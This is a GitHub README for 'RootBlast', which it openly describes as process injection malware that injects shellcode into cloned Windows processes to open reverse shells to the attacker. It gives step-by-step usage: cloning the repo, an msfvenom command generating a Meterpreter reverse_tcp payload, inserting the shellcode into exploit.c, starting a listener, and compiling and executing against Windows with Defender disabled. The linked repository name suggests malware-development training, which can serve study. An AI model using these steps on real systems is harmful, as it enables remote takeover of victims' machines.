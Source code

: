 # RootBlast

Process injection malware that clones windows processes, injects them with shellcode and executes them to attempt numerous reverse shells on the attacker. 

## Usage
+ Clone the repo
```
git clone https://github.com/spirizeon/rootblast
```
+ Generate shellcode through msfvenom 
```
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<IP adress> LPORT=443 -f c --var-name=shellcode
```
+ Replace shellcode with that in `exploit.c`

+ Start the listener on the Attacker machine (Run msfconsole as sudo)

![image](https://github.com/Spirizeon/maldev-training/assets/123345456/a78fc663-07fa-48c1-a65e-e68db3c4d29c)

+ Compile the code (MSVC compiler recommended) and execute

![image](https://github.com/Spirizeon/maldev-training/assets/123345456/9a44d8ad-cf9e-435e-af46-a74f270057a9)

## Tech Stack

**Attacker** Kali Linux/ParrotOS VMs, metasploit-framework

**Target:** Windows 7/10/11 (with Windows defender turned off)

